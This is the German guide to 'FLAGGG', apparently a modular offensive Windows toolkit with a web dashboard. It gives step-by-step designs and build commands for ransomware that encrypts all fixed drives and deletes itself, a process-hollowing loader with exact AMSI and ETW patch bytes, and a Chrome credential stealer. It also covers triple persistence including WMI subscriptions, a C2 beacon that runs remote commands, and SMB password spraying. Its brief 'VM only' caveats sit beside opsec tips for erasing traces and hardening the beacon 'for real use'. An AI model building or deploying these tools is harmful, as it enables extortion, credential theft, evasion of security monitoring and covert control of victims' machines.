








# FLAGGG — Kompletter Guide

**Toolkit-Übersicht mit Screenshots, Erklärung und Betrieb**
Stand: Operations-Build · Windows 11 x64 · MSVC / Python 3.11

---

## Inhaltsverzeichnis

1. [Überblick](#1-überblick)
2. [Mission Control — Dashboard](#2-mission-control--dashboard)
3. [Ransomware](#3-ransomware)
4. [Loader / Process Hollowing](#4-loader--process-hollowing)
5. [Stealer — Chrome Credentials](#5-stealer--chrome-credentials)
6. [Persistenz](#6-persistenz)
7. [C2-Beacon](#7-c2-beacon)
8. [Spray / Netzwerk-Scan](#8-spray--netzwerk-scan)
9. [Trainer GUI](#9-trainer-gui)
10. [Build & Betrieb](#10-build--betrieb)
11. [Testumgebung & Opsec](#11-testumgebung--opsec)

---

## 1. Überblick

FLAGGG ist ein modulares Toolkit für Windows-Recon, -Persistence,
-Exfiltration und -Interaktion. Jedes Modul ist eine eigenständige,
kompilierbare Einheit; das Dashboard (Mission Control) dient als
Kommandozentrale.

| # | Modul | Datei | Funktion |
|---|-------|-------|----------|
| 1 | Ransomware | `tools/ransomware/ransom.cpp` | AES-256-GCM, In-Place, Self-Delete |
| 2 | Loader | `tools/loader/hollow.cpp` + `stub.cpp` | Process Hollowing, AMSI/ETW-Patch |
| 3 | Stealer | `tools/stealer/steal.cpp` | Chrome Login Data via DPAPI + AES-GCM |
| 4 | Persistenz | `tools/persist/persist.c` | schtasks, Run-Key, WMI-Subscription |
| 5 | C2-Beacon | `tools/c2/beacon.cpp` | HTTP-Poll, XOR+B64, Task-Execution |
| 6 | Spray | `tools/spray/spray.cpp` | 445-Scan + SMB-Credential-Spray |
| 7 | Trainer | `tools/cheat/trainer_gui.cpp` | Win32-GUI, RPM-Pointerchain |
| 8 | Panel | `tools/panel/` | HTML-Dashboard + Python-Server |

**Grundprinzip:** Alle Tools arbeiten extern (Read/WriteProcessMemory,
Subprozesse, Winsock) — es wird nichts zur Laufzeit in fremde Prozesse
injiziert außer im explizit dafür gebauten Loader-Modul.

---

## 2. Mission Control — Dashboard

Das Panel ist eine reine HTML/CSS/JS-Seite mit einem schlanken
Python-Server, der die Tools als Subprozesse startet und Logs sammelt.



**Elemente:**

- **Statusleuchte** (oben rechts): grün = Server erreichbar, rot = offline.
- **Stat-Karten**: Hostname, PID des Servers, Modulanzahl, Session.
- **Modul-Karten**: sieben Karten mit Icon, Beschreibung und Status-Badge.
  `▶ STARTEN` feuert das jeweilige Binary ab, `LOG` zeigt den letzten Output.
- **Konfiguration**: C2-Host/-Port, Trainer-Offsets und Game-Modul werden
  im Browser gespeichert (localStorage).
- **Live-Log**: die letzten 200 Zeilen aller Tool-Läufe, gestempelt.

**Server starten:**

```bash
python tools/panel/server.py 8000
# → http://127.0.0.1:8000
```

**Hinweis:** Die STARTEN-Buttons erwarten die kompilierten Binaries
(siehe Abschnitt 10). Ohne Build melden sie `nicht gefunden — erst bauen`.

---

## 3. Ransomware



**Was es tut:** Wandert über alle FESTEN Laufwerke, verschlüsselt
Zieldateien mit AES-256-GCM (pro Datei eigener Schlüssel), benennt sie
auf `.flaggg` um, legt eine Lösegeld-Notiz ab und löscht sich selbst.

**Ablauf:**

1. `GetLogicalDrives()` → nur `DRIVE_FIXED`-Laufwerke.
2. Rekursive Walk mit `FindFirstFileW`; Skip-Liste für
   `Windows`, `Program Files`, `ProgramData`, `Recycle Bin`, `PerfLogs`.
3. Pro Datei: `BCryptGenRandom` für 32-Byte-Key + 12-Byte-Nonce.
4. `BCryptEncrypt` im GCM-Modus; Datei-Layout `iv | tag | ciphertext`.
5. `MoveFileW` → `datei.flaggg`; `README_FLAGGG.txt` in jedem Ordner.
6. Self-Delete: EXE nach `%TEMP%` kopieren, via
   `cmd /c ping -n 4 127.0.0.1 >nul & del ...` nach 4 s löschen.

**Skip-Filter (Auszug):** Office, Medien, Archive, SQL/DB, Keys,
PEM/OVPN, Wallets, JSON, Log.

**Build:**

```
cl /EHsc /O2 /Fe:ransom.exe ransom.cpp bcrypt.lib shlwapi.lib advapi32.lib
```

**Abbruch-Schalter:** `ESC` beim Programmstart beendet sofort.
**Test:** nur in VM/Snapshot — siehe Abschnitt 11.

---

## 4. Loader / Process Hollowing



**Was es tut:** Startet `notepad.exe` angehalten, entfernt dessen
Speicherabbild, schreibt einen eigenen Payload (Stub) an die Stelle und
setzt den Prozess an der Payload-Entrypoint fort. Der Prozess erscheint
in Task-Manager/Process-Liste weiterhin als notepad.

**Ablauf:**

1. `CreateProcessW(..., CREATE_SUSPENDED | CREATE_NO_WINDOW)`.
2. `NtUnmapViewOfSection` (per `GetProcAddress` gelöst) — altes Image raus.
3. `VirtualAllocEx(PAGE_EXECUTE_READWRITE)` am Original-ImageBase.
4. Headers + Sektionen via `WriteProcessMemory` übertragen.
5. **AMSI-Patch**: `AmsiScanBuffer` im Kindprozess auf
   `mov eax,0x80070057; ret` — der Scan-Rückgabewert ist damit
   „nicht bösartig".
6. `SetThreadContext(Rcx = Base + AddressOfEntryPoint)` und `ResumeThread`.

Der Stub (payload.bin) patcht zusätzlich **ETW**: er sucht das
`EtwEventWrite`-Prolog-Signaturmuster in ntdll
(`4C 89 4C 24 20 4C 89 44 24 18`) und neutralisiert es mit `NOP`-Befehlen.

**Build:**

```
cl /EHsc /O2 hollow.cpp ntdll.lib
cl /c /O1 stub.cpp   # dann linken mit:
# /ENTRY:mainCRTStartup /NODEFAULTLIB /ALIGN:16 /MERGE:.rdata=.text
# → payload.bin (muss x64-EXE sein)
```

**Grenzen:** `NtUnmapViewOfSection` ist ein bekannter EDR-Hookpunkt —
für Ring-0-Festigkeit eigene Syscall-Stubs verwenden.

---

## 5. Stealer — Chrome Credentials



**Was es tut:** Entschlüsselt die gespeicherten Logins aus Chrome und
schreibt sie mit `url | user | passwort` in `steal_report.txt`.

**Ablauf:**

1. Lesen von `%LOCALAPPDATA%\Google\Chrome\User Data\Local State`.
2. JSON-Scan nach `"encrypted_key":"..."` → Base64-Dekodierung →
   Präfix `DPAPI` entfernen.
3. `CryptUnprotectData` → 32-Byte-AES-Masterkey.
4. `Login Data` (SQLite) via `sqlite3.dll` öffnen:
   `SELECT origin_url, username_value, password_value FROM logins`.
5. Passwort-Blob `v10`-Format: Nonce 12 Byte, Tag 16 Byte, Rest
   Ciphertext → `BCryptDecrypt` (AES-256-GCM).
   Ältere Blobs ohne `v10`-Präfix → direkt DPAPI.

**Build:**

```
cl /EHsc /std:c++17 /O2 steal.cpp crypt32.lib bcrypt.lib
# sqlite3.dll muss neben der EXE liegen
```

**Grenzen:** Der Local-State-Parse ist ein robuster Scan, kein voller
JSON-Parser. Browser-Updates können das Format ändern.

---

## 6. Persistenz



**Was es tut:** Verankert die EXE dreifach im System:

1. **Task Scheduler:** `schtasks /create /tn FlagggUpdate /tr "<exe>" /sc onlogon /rl highest /f` — startet bei jedem Logon, höchste Rechte (braucht Admin).
2. **Run-Key:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` → EXE-Pfad (ohne Admin, nur aktueller User).
3. **WMI-Subscription:** `__EventFilter` auf `Win32_PerfFormattedData_PerfOS_System` + Consumer — permanent, überlebt Logoff und viel AV.

**Build:**

```
cl /O2 persist.c advapi32.lib
```

**Hinweis:** WMI-Subscriptionen sind schwer wieder loszuwerden und werden
von Standard-AV oft übersehen. Tests nur in Snapshot-VMs.

---

## 7. C2-Beacon



**Was es tut:** Pollt in regelmäßigen Abständen mit Jitter einen C2-
Server, holt sich Tasks, führt sie via `cmd /c` aus und meldet die
Ausgabe zurück.

**Protokoll:**

- Roher TCP-Socket (Winsock) → HTTP/1.1 `POST /beacon` mit Body
  `Base64(XOR(data))` — XOR-Schlüssel `0x5A`.
- Poll-Intervall: `HEARTBEAT_MS` (30 s) ± bis zu 5 s Jitter.
- Task-Antwort: `NONE` = nichts tun; sonst ausführen, Ergebnis via
  `POST /result` zurücksenden.
- Fake-User-Agent (Chrome auf Windows).

**Build:**

```
cl /EHsc /O2 beacon.cpp ws2_32.lib
```

**Wichtig:** `C2_HOST` und `C2_PORT` in der Quelle setzen. Ohne TLS ist
der Verkehr mitlesbar — für echte Nutzung Schannel/TLS einbauen.

---

## 8. Spray / Netzwerk-Scan



**Was es tut:** Findet Hosts mit offenem SMB-Port 445 und testet
Credential-Paare gegen deren IPC$-Freigabe.

**Phase 1 — Scan:** Nonblocking `connect` + `select` mit 64 Threads
über ein /24-Subnetz; danach SMB-Banner-Grab
(`SMB1`/`SMB2`-Erkennung über Negotiate-Request).

**Phase 2 — Spray:** `WNetAddConnection2W(\\host\IPC$)`, bei
`ERROR_SESSION_CREDENTIAL_CONFLICT` = gültiges Paar. 650 ms Throttle
pro Versuch gegen Lockout.

**Build:**

```
cl /EHsc /O2 spray.cpp ws2_32.lib mpr.lib
# Nutzung: spray.exe <subnetz> <user:pass> [user:pass ...]
```

**Hinweis:** Spraying erzeugt Logs (Security-Event 4625) und kann
Lockouts auslösen — nur auf authorisierten Zielen.

---

## 9. Trainer GUI



**Was es tut:** Grafische Trainerkonsole mit Prozess-Dropdown, Live-HP-
Balken und Write-Buttons für God-Mode/Ammo.

**Steuerung:**

- **Dropdown:** alle Prozesse per Toolhelp32-Snapshot, `game.dll` muss
  im Zielprozess geladen sein (Basis wird per `EnumProcessModules`
  ermittelt).
- **Timer (250 ms):** Pointerkette lesen → HP als `float` → Balken.
- **Buttons:** `God Mode` schreibt `9999.0f` auf die HP-Adresse,
  `Ammo` schreibt `999` auf `HP+0x10`, `HP lesen` refresht manuell.

**Build:**

```
cl /EHsc /O2 /Fe:trainer_gui.exe trainer_gui.cpp psapi.lib comctl32.lib user32.lib gdi32.lib
```

**Offsets sind Platzhalter** (`0x0F2C10 → 0x0A4 → 0x0A8`) — pro
Game-Build mit Cheat Engine/x64dbg re-deriven. Online-Spiele mit
Kernel-Anticheat erkennen ReadProcessMemory.

---

## 10. Build & Betrieb

**Reihenfolge (einmalig):**

```bash
# Ransomware
cl /EHsc /O2 /Fe:ransom.exe tools/ransomware/ransom.cpp bcrypt.lib shlwapi.lib advapi32.lib

# Loader + Stub
cl /EHsc /O2 tools/loader/hollow.cpp ntdll.lib
cl /c /O1 tools/loader/stub.cpp
# Link-Stub: /ENTRY:mainCRTStartup /NODEFAULTLIB /ALIGN:16 /MERGE:.rdata=.text
# Ausgabe umbenennen → payload.bin

# Stealer (braucht sqlite3.dll)
cl /EHsc /std:c++17 /O2 tools/stealer/steal.cpp crypt32.lib bcrypt.lib

# Persistenz
cl /O2 tools/persist/persist.c advapi32.lib

# Beacon (vorher C2_HOST/C2_PORT setzen)
cl /EHsc /O2 tools/c2/beacon.cpp ws2_32.lib

# Spray
cl /EHsc /O2 tools/spray/spray.cpp ws2_32.lib mpr.lib

# Trainer GUI
cl /EHsc /O2 /Fe:trainer_gui.exe tools/cheat/trainer_gui.cpp psapi.lib comctl32.lib user32.lib gdi32.lib
```

**Panel nutzen:**

```bash
python tools/panel/server.py 8000
# http://127.0.0.1:8000
```

---

## 11. Testumgebung & Opsec

- **Immer zuerst in einer VM** mit Snapshot testen (Ransomware und
  Persistenz sind irreversibel bzw. schwer zu bereinigen).
- **Ransomware:** nur auf Testdaten; `ESC` bietet Abbruch nur beim Start.
- **Spray:** nur gegen eigene/authorisierte Infrastruktur; Lockout-Policies
  beachten.
- **Beacon:** ohne TLS mitlesbar; C2-Serveradresse ist kompiliert.
- **Offsets im Trainer veralten mit jedem Game-Patch** — vor Nutzung
  neu ermitteln.
- **Spuren:** Logs, Berichte und Screenshots liegen lokal in `tools/panel/`
  — vor Weitergabe löschen oder verschlüsseln.

---

*FLAGGG · gebaut als Modul-Bausatz · alle Tools sind selbstständig
lauf- und baubar.*
